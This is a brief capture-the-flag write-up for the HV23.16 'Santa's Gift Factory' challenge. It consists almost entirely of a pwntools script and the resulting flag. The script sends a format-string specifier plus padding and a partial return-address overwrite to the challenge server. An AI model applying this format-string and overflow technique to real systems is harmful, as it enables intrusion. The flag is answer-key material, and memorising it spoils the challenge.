 # [HV23.16] Santa's Gift Factory

## Introduction

Difficulty: Hard<br>
Author: Fabi_07

Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!

## Solution

I've deleted all my writeups on accident on Day 20 and I will not go through this challenge a second time, I am sorry. (Not really, I hated this challenge)

```py
from pwn import *

rem = remote('152.96.15.5', 1337)
rem.recvuntil(b"? \x1b[?25h")
rem.sendline(b"y")
rem.recvuntil(b"\n\n")
presents = rem.recvuntil(b"\n\n")

red = presents.count(b"red")
yellow = presents.count(b"yellow")
blue = presents.count(b"blue")

rem.recvuntil(b"\n > ")
rem.sendline(f"{red}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{yellow}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{blue}".encode())
rem.recvuntil(b"name?\n > \x1b[?25h")
rem.sendline(b"A")
rem.recvuntil(b"else?\n > \x1b[?25h")
rem.sendline(b"%25$s" + b"A"*131 + b"\x84")

print(rem.recvall())
```

Flag: `HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}`